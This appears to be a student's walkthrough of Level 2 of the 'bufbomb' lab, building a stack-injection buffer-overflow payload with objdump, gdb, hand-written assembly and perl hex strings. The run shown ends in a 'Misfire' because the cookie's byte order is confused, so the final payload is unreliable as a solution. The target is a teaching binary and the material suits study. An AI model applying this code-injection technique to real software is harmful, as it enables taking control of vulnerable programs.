Level 2
=======

Goal = inject machine instructions onto the stack, have those instructions execute and then redirect function getbuf() to function bang()

To find the address of function ```bang()``` type:
```unix> objdump -d bufbomb | less```

and use ```f``` to go forward and ```b``` to go backwards until you find bang():

```
08049012 <bang>:
 8049012:       55                      push   %ebp
 8049013:       89 e5                   mov    %esp,%ebp
 8049015:       83 ec 18                sub    $0x18,%esp
 8049018:       a1 ec c1 04 08          mov    0x804c1ec,%eax <=== 1)
 804901d:       3b 05 e4 c1 04 08       cmp    0x804c1e4,%eax <=== 2)
 8049023:       75 1e                   jne    8049043 <bang+0x31>
 8049025:       89 44 24 04             mov    %eax,0x4(%esp)
 8049029:       c7 04 24 58 a1 04 08    movl   $0x804a158,(%esp)
 8049030:       e8 ab f8 ff ff          call   80488e0 <printf@plt>
 8049035:       c7 04 24 02 00 00 00    movl   $0x2,(%esp)
 804903c:       e8 93 00 00 00          call   80490d4 <validate>
 8049041:       eb 10                   jmp    8049053 <bang+0x41>
 8049043:       89 44 24 04             mov    %eax,0x4(%esp)
 8049047:       c7 04 24 69 9f 04 08    movl   $0x8049f69,(%esp)
 804904e:       e8 8d f8 ff ff          call   80488e0 <printf@plt>
 8049053:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 804905a:       e8 31 f9 ff ff          call   8048990 <exit@plt>

 ```
<b>write down the address of bang(). Mine is 08049012</b>
Now type:

```
unix> perl -e 'print "AA "x44, "12 90 04 08 " ' > hexlevel2
unix> ./hex2raw < hexlevel2 > raw
unix> gdb bufbomb
(gdb) break getbuf
(gdb) run -u quinnliu < raw
```

Now use the gdb examine command ```x``` to locate the address and the value held for the variable ```global_value``` by typing:

```
(gdb) x/x &global_value
```

Gives you:

```
(gdb) x/x &global_value
0x804c1ec <global_value>:       0x00000000
```

Now break bang() and show disassembly:
```
(gdb) break bang
(gdb) cont
(gdb) disas
```

Gives you:
```
(gdb) disas
Dump of assembler code for function bang:
   0x08049012 <+0>:     push   %ebp
   0x08049013 <+1>:     mov    %esp,%ebp
   0x08049015 <+3>:     sub    $0x18,%esp
=> 0x08049018 <+6>:     mov    0x804c1ec,%eax
   0x0804901d <+11>:    cmp    0x804c1e4,%eax
   0x08049023 <+17>:    jne    0x8049043 <bang+49>
   0x08049025 <+19>:    mov    %eax,0x4(%esp)
   0x08049029 <+23>:    movl   $0x804a158,(%esp)
   0x08049030 <+30>:    call   0x80488e0 <printf@plt>
   0x08049035 <+35>:    movl   $0x2,(%esp)
   0x0804903c <+42>:    call   0x80490d4 <validate>
   0x08049041 <+47>:    jmp    0x8049053 <bang+65>
   0x08049043 <+49>:    mov    %eax,0x4(%esp)
   0x08049047 <+53>:    movl   $0x8049f69,(%esp)
   0x0804904e <+60>:    call   0x80488e0 <printf@plt>
   0x08049053 <+65>:    movl   $0x0,(%esp)
   0x0804905a <+72>:    call   0x8048990 <exit@plt>
End of assembler dump.
```
At bang+6 a mov instruction stores the value held at 0x804c1ec into %eax. This is then compared to the value at address 0x804c1e4 which is the location of the cookie!

More specific goal = 1) replace the value at 0x804c1ec with my cookie as the little endian id. 2) push the return address to bang() onto the stack 3) return

Since we now know the address of the global variable cookie we can create an assembly instruction to mov my cookie value into the location of global_value. 

This can be done by writing the assembly instructions into a .s file, compiling to a binary .o file. Disassemblying the binary file to get the hex that will be used for the exploit string.

From level 1 calculations get your little endian id. 
              My id: 0x 2d 8c c7 0c <=== USE THIS ONE ON FIRST TRY
My little endian id: 0x 0c c7 8c 2d <=== USE THIS ON SECOND TRY

<b>NOTE try starting here again with little endian id if regular id doesn't work</b>

First create the file assemblylevel2.s with the following contents:
```
movl $0x2d8cc70c, 0x0804c1ec 
pushl $0x08049012            
ret                         
```

then type:
```
unix> gcc -m32 -c assemblylevel2.s
unix> objdump -d assemblylevel2.o > assemblylevel2.d
unix> cat assemblylevel2.d
```

Gives you:
```
assemblylevel2.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   c7 05 ec c1 04 08 0c    movl   $0x2d8cc70c,0x804c1ec
   7:   c7 8c 2d
   a:   68 12 90 04 08          push   $0x8049012
   f:   c3                      ret
```

Now that I have the hex representation of the assembly to manipulate the bufbomb binary I can put this into the buffer overflow so that it is pushed onto the stack and is executed.

But before I correctly push instructions onto the stack I first have to tell the binary bufbomb where to look for my new instructions. 

Let's first just add the new assembly instructions to see where they are on the stack by typing:
```
perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "EE "x4, "c7 05 ec c1 04 08 0c c7 8c 2d 68 12 90 04 08 c3" ' > hexlevel2_2
```

Now create the corresponding raw file and use it as the new input for the bufbomb:
```
unix> ./hex2raw < hexlevel2_2 > raw
unix> gdb bufbomb
(gdb) break *getbuf+17
(gdb) run -u quinnliu < raw
(gdb) i r
```

Gives you:
```
(gdb) i r
eax            0x55683328       1432892200
ecx            0xa      10
edx            0xb53334 11875124
ebx            0x0      0
esp            0x55683318       0x55683318
ebp            0x55683350       0x55683350
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8048c15        0x8048c15 <getbuf+17>
eflags         0x212    [ AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99

```

Now let's take a look inside $esp with:
```x/20x $esp```

Gives you 20 words to examine from $esp:
```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x009f4b36      0x00b5232c      0x55683328
0x55683328 <_reserved+1037096>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683338 <_reserved+1037112>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683348 <_reserved+1037128>: 0xbbbbbbbb      0xcccccccc      0xdddddddd      0xeeeeeeee
0x55683358 <_reserved+1037144>: 0xc1ec05c7      0xc70c0804      0x12682d8c      0xc3080490
```

The address in %ebp is at 0x55683350 which means it is overwritten by 0xdddddddd. The return address of %ebp is also overwritten by 0xeeeeeeee. We can also see our assembly instructions are now on the stack.

In order for the exploit to work, the buffer overflow will have to push the return address of the beginning of the exploit. Looking at the stack shows where the beginning of the exploit starts (0xeeeeeeee). So just replace 0xeeeeeeee with the little endian hex representation of the address where we begin our string exploit at 0x55683358.

0x 55 68 33 58 # is the original order
0x 58 33 68 55 # is the little endian order

Create the new input file by typing:
```
perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "58 33 68 55 ", "c7 05 ec c1 04 08 0c c7 8c 2d 68 12 90 04 08 c3" ' > hexlevel2_3
```

Now create the corresponding raw file and use it as the new input for the bufbomb:
```
unix> ./hex2raw < hexlevel2_3 > raw
unix> gdb bufbomb
(gdb) break *getbuf+17
(gdb) run -u quinnliu < raw
(gdb) x/20x $esp
```

Gives you:
```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x0098db36      0x00aeb32c      0x55683328
0x55683328 <_reserved+1037096>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683338 <_reserved+1037112>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683348 <_reserved+1037128>: 0xbbbbbbbb      0xcccccccc      0xdddddddd      0x55683358
0x55683358 <_reserved+1037144>: 0xc1ec05c7      0x8c2d0804      0x12680cc7      0xc3080490
```

Then type ```cont```

Gives you:
```
(gdb) cont
Continuing.
Type string:Misfire: global_value = 0xcc78c2d

Program exited normally.
```



